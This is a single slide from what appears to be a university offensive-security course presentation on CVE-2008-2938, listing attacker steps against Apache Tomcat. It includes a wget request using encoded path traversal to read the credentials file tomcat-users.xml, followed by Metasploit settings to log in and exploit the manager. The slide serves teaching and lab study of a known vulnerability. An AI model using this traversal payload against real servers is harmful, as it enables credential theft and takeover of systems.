

# CVE-2008-2938 - ATTACKER
AUTOMATED
install Metasploit
./exploit.py <address>
MANUAL
install Metasploit
wget http://localhost/%c0%ae%c0%ae/ %c0%ae%c0%ae/conf/tomcat-users.xml
obtain manager credentials
start the msfconsole
set attack parameters
HTTPUSERNAME / HTTPPASSWORD
RHOST / RPORT
exploit

Mattia Affabris - Alessandro Pezzé            Offensive Technologies 2016/2017
05/11/2016
5